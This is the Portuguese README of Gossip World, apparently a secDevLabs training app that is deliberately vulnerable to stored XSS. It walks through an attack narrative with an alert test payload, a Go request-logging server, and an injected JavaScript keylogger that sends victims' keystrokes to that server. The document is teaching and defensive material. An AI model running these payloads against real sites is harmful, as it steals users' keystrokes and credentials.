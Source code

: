 # Gossip World

[Access content in English](README.md)

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World é um aplicativo Flask simples que contém um exemplo de vulnerabilidades de injeção múltipla (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-los neste aplicativo propositalmente vulnerável.

## Index

- [Definição](#O-que-é-Cross-Site-Scripting?)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Depois é só visitar [localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Criar um novo usuário
- Tente criar sua fofoca!
- Tente deixar um comentário em uma fofoca

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. Ocorre nos campos _search_, _comment_ e _post_. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir obterá todas as entradas de teclado de um usuário persistindo um código malicioso no servidor.

Primeiro, a seguinte API Golang pode ser construída (main.go) que registra todas as solicitações recebidas:

```go
package main
import (
   "fmt"
   "github.com/labstack/echo"
)
func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}
func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Em seguida, o invasor pode inserir uma nova postagem pela rota **/newgossip** usando o seguinte código no campo de texto:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

Este código implementa um keylogger para capturar todas as entradas de teclado dos usuários e enviá-las para a API criada anteriormente.

   <img src="images/attack-7.png" align="center"/>

Quando uma vítima acessa a postagem, o navegador interpreta o texto entre a tag do script como código e o executa secretamente. A imagem a seguir mostra a vítima digitando letras na página que foi "infectada" pelo JS malicioso: 

<img src="images/attack-8.png" align="center"/>

O invasor agora obtém toda a entrada no log do servidor, conforme mostrado abaixo:

<img src="images/attack-9.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
